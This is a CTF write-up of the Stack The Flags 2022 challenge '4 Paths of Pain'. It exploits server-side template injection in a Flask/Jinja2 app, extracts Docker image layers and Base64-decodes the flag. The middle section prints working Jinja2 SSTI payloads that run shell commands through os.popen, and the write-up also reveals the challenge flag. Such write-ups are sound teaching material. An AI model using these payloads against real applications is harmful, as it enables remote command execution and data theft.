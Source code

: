 ```yaml
---
title: "Stack The Flags 2022 - 4 Paths of Pain (Write Up)"
date: 2022-12-14T09:34:30-04:00
categories:
  - CTF
tags:
  - CTF
  - STF22
  - SSTI
  - Flask
  - Jinja2
comments: true
toc: true
toc_label: "Content"
toc_sticky: true

---
```



Recently, a few colleagues and I participated in **Stack The Flags 2022**, a CTF organised by **Govtech Singapore**. My goal was to learn a thing or two from trying to solve the challenges even if I was not able to successfully complete them.

The CTF was 48 hours and had over 50 challenges spanning from multiple categories such as Forensics, Web, Crypto, OSINT and etc.

This is my writeup for one of the Misc challenge, **4 Paths of Pain**.

![pain.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/pain.jpg)

## 4 Paths of Pain 

* Flag: ```STF22{P41n_1s_411_th3_s4m3}```
* Category: Misc
* Difficulty: Easy
* Points: 1000 (Decayed to 400 points by the end of the CTF)

---

### Inspecting the Web App


Main Page:
![index.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/index.png)


Source Code:
![sourcecode.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/sourcecode.png)

```html
<h1>I can't seem to find the defense blueprints man</h1>
<p hidden>Hey Jaga, please help us defend our village, I have left the blueprints of the secret weapon in a file - blueprint.img. It's hidden in layers so even if Pain does get it, he cant view it. </p>
<p hidden> Remember to take a look at the source code of this server! it should help you locate what you need. God speed! - Corona2019</p>
<input hidden type="button" onclick="location.href='?nopain=haha';" value="haha" />
```

The source code revealed to us that the secret weapon is in a file called 'blueprint.img'.
We also observed that there is a hidden button that points to `?nopain=haha`

![parameter.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/parameter.png)

Navigating to the URL, we see that the web application displays the input after `?nopain=`

With this knowledge, we probe further using Postman to try and find more information about the webserver.

In the headers of the response, we see that the server is using Werkzeug 2.2.2.

![werkzeug.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/werkzeug.png)

I started to do some OSINT on Werkzeug to find any known vulnerabilities related to it. During my research, I found this [writeup][htb-doctor] by Zander Work which showcased Server-Side Template Injection (SSTI). According to Zander Work, *SSTI vulnerability is present when unsanitized input is passed to a template before it is rendered, rather than as an input to the render engine as it renders the template.* Hence, I prepared a simple payload for Jinja2 to test for SSTI vulnerability.

\{\{7*7\}\}

If the web application is vulnerable to SSTI, the expected response will be 49. I do not have a screenshot of this but I remember doing this step to confirm that this web server was truly vulnerable to SSTI.

### Exploiting SSTI Vulnerability

With that, I prepared a payload to list the files in the current directory.
![ls.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/ls.jpg)

We can see that there are 4 files with `blueprint.img` being one of them.
```
-app.py
-blueprint.img
-requirements.txt
-templates
```
Inspecting `requirements.txt` with the following payload:
```
{% raw %}157.245.52.169:32512/?nopain={{request.application.__globals__.__builtins__.__import__("os").popen("cat requirements.txt").read()}}{% endraw %}
```
```
click==8.1.3
Flask==2.2.2
itsdangerous==2.1.2
Jinja2==3.1.2
MarkupSafe==2.1.1
Werkzeug==2.2.2
```
We observed that Jinja2 was installed.

Inspecting `app.py` with the following payload:
```
{% raw %}157.245.52.169:32512/?nopain={{request.application.__globals__.__builtins__.__import__("os").popen("cat app.py").read()}}{% endraw %}
```
```python
from flask import Flask, render_template, make_response, request, render_template_string, send_file from datetime import datetime import base64 app = Flask(__name__)

@ app.route('/')

def page2():
  if request.args.get('nopain'):
  return render_template_string(request.args.get('nopain'))
  else:
    return render_template('defendthevillage.html')

@ app.route('/defendthevillagefrompain', methods=['GET'])

def page3():
  try: return send_file('./blueprint.img')
  except Exception as e:
    return str(e) if __name__ == "__main__": app.run(host="0.0.0.0", port=8086)
```
From the source code, we noticed that there is a path to `/defendthevillagefrompain`. A `GET` request to `157.245.52.169:32512/defendthevillagefrompain` will return `./blueprint.img`. We managed to download `blueprint.img` once we entered the URL in the browser.

### Analysing Blueprint.img

![blueprint.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/blueprint.png){:height="350px" width="350px"}

We found out that we could easily use 7Zip to extract and reveal the content in blueprint.img.

![7zip.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/7zip.png){:height="700px" width="700px"}

Looking at `786fa91039940fa3967fb214d152d1b933d6d83dc1dfbc53c70aaceda221c391.json`, it seems like the creator of the challenged copied secret-message.txt from his environment into one of the container volumes.

```
...
    {
      "created": "2022-11-18T02:49:23.301698469Z",
      "created_by": "COPY secret-message.txt /usr/src/app # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
    {
      "created": "2022-11-18T02:49:23.47397059Z",
      "created_by": "RUN /bin/sh -c rm -rf /usr/src/app/secret-message.txt # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
    {
      "created": "2022-11-18T02:49:23.47397059Z",
      "created_by": "CMD [\"/bin/sh\" \"-c\" \"\\\"whoami\\\"\"]",
      "comment": "buildkit.dockerfile.v0",
      "empty_layer": true
    }
...

```
The log file tells us that  `secret-message.txt` is stored in the location `/usr/src/app`. While there were a few folders, this narrows down the folder we will be looking for. By browsing through the different folders, we managed to find `secret-message.txt` in `23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/layer.tar` using 7zip.

![secretmessagefound.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/secretmessagefound.png){:height="700px" width="700px"}

### Revealing the secret message... (wait a minute)

We opened `secret-message.txt` expecting to find a flag but it was just a message telling us to find the last hiding place.

![secretmessage.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/secretmessage.png){:height="350px" width="350px"}

At this point we didn't really know what to do with this information but we thought that the location looks a little familiar. We thought it could either be the name of a Github or Dockerhub Repo.

So we searched on DockerHub and at last, we found the last hiding place!

![dockerhub.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/dockerhub.png)

The description of the Docker Image - `U1RGMjJ7cDQxbl8xc180MTFfdGgzX3M0bTN9` looks like an encoded string of text.

To decode this string of text, we used the magic wand feature in CyberChef which was able to identify that the encoded string was in Base64.


![cyberchef.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/cyberchef.png)

Finally, we were able to find the flag for this challenge! We managed to use the secret weapon and defend Konoha against Pain!

![iruka.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/iruka.jpg)



[htb-doctor]: https://zanderwork.com/blog/htb-doctor/
